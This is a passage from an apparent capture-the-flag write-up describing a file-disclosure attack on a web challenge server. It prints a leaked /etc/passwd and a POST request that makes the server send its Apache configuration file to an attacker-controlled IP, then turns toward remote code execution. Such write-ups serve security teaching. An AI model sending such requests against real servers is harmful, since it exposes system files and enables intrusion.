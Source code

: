 At our IP, we will get `/etc/passwd` from the server!

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
orange:x:1001:1001:,,,:/home/orange:/bin/bash
```

We can also see that the Apache configuration use `000-default.conf` and the web directory is in `/var/www/html`.

```
POST http://13.230.134.135/?url=http://IP&data[test]=@/etc/apache2/sites-enabled/000-default.conf
```

```
<VirtualHost *:80>
	...

	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html

	...
</VirtualHost>
```

The attempt to get the flag from Local File Disclosure was unsuccessful. Therefore, we must do Remote Code Execution.
